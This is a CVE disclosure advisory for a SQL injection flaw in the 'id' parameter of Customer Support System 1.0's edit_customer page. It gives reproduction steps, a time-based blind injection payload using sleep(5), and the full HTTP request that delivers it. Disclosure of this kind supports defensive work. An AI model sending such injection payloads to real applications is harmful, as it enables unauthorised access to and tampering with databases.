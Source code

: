 # CVE-2023-49969
# Customer Support System 1.0 - SQL Injection Vulnerability in edit_customer via "id" URL Parameter

**Description**: A SQL Injection vulnerability exists in version 1 of the Customer Support System. An attacker with malicious intent can execute SQL commands on the MySQL database by manipulating the 'id' URL parameter while editing a customer.
  
**Vulnerable Product Version**: Customer Support System 1.0  
**CVE Author**: Geraldo Alcântara  
**Date**: 28/11/2023  
**Confirmed on**: 19/12/2023  
**CVE**: CVE-2023-49969  
**Tested on**: Windows  
### Steps to reproduce:  
1- Log in to the application.  
2- Navigate to the customer_list page, click the "Action" button, and select "Edit".  
3- The 'id' parameter will be passed, allowing the insertion of a malicious payload.  
**payload**: (select*from(select(sleep(5)))a)  
### Request

```
GET /customer_support/index.php?page=edit_customer&id=(select*from(select(sleep(5)))a HTTP/1.1
Host: 192.168.68.182
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Connection: close
Referer: http://192.168.68.182/customer_support/index.php?page=customer_list
Cookie: PHPSESSID=arlocktakq815fq1lpm5fjml9n
Upgrade-Insecure-Requests: 1
```
Discoverer(s)/Credits:  
Geraldo Alcântara
